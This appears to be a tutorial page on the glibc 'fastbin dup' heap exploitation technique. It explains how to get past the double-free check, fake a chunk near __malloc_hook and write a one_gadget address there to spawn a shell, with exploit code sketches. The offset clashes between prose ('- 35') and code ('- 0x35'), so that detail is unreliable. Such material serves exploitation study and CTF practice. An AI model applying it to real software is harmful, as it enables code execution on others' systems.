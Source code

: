 ```yaml
---
layout: page
title: Fastbin dup
comments: true
tags: [fastbin]
---
```


This attack leverages a double free bug to corrupt the fastbin metadata by inserting a fake chunk into a fastbin.

```
free(ptr);
free(ptr);
```
Executing the code above will result in a crash because of the fastbin double free check.
The code responsible for performing fastbin double free check is:
```
if (SINGLE_THREAD_P)
{
/* Check that the top of the bin is not the record we are going to
add (i.e., double free).  */
    if (__builtin_expect (old == p, 0))
        malloc_printerr ("double free or corruption (fasttop)");
    p->fd = old;
    *fb = p;
}
 else{

 }

```
This mitigation checks if the value stored in a fastbin's slot in the arena is same as the value being added. If yes, a double free will be detected. This can be easily bypassed :
```
free(ptr);
free(different_ptr);
free(ptr);
```
This will allow us to free a pointer twice. This double free bug can be used to insert fake chunks into the fastbin which are subjected to the fastbin size integrity check.

```
idx = fastbin_index (nb);
if (__glibc_likely (victim != NULL))
            {
              size_t victim_idx = fastbin_index (chunksize (victim));
              if (__builtin_expect (victim_idx != idx, 0))
                malloc_printerr ("malloc(): memory corruption (fast)");
              check_remalloced_chunk (av, victim, nb);

```
When a chunk is allocated from a fastbin, a check is made if the size field of the chunk malloc is about to allocate is same as the size of the fastbin it is being allocated from. 
If you have no control over the fake chunk size, you may use the pwndbg command `find_fake_fast` which will find fake chunks with a particular size field than can be used to perform a fastbin dup.

```
find_fake_fast &__malloc_hook
```

One such fake chunk is found at `&__malloc_hook - 35`. Thus, keeping the size field integrity check in mind, a fastbin dup can be performed by using 0x70 sized chunks.

```
fake_fast = __malloc_hook - 0x35

#Let's say, a function allocate is used to create a new chunk of some size, containing some data
ptr1 = allocate(0x68,b'a'*8)
ptr2 = allocate(0x68,b'a'*8)
```

Execute the double free
```
free(ptr1)
free(ptr2)
free(ptr1)

```

Continue the attack
```
#Insert the fake_fast chunk into the 0x70 fastbin.

allocate(0x68,p64(fake_fast))

allocate(0x68,b'a'*8)
allocate(0x68,b'a'*8)

#Write one_gadget into __malloc_hook

allocate(0x68,b'a'*19+p64(one_gadget))

#Call malloc to spawn a shell
allocate(....)
```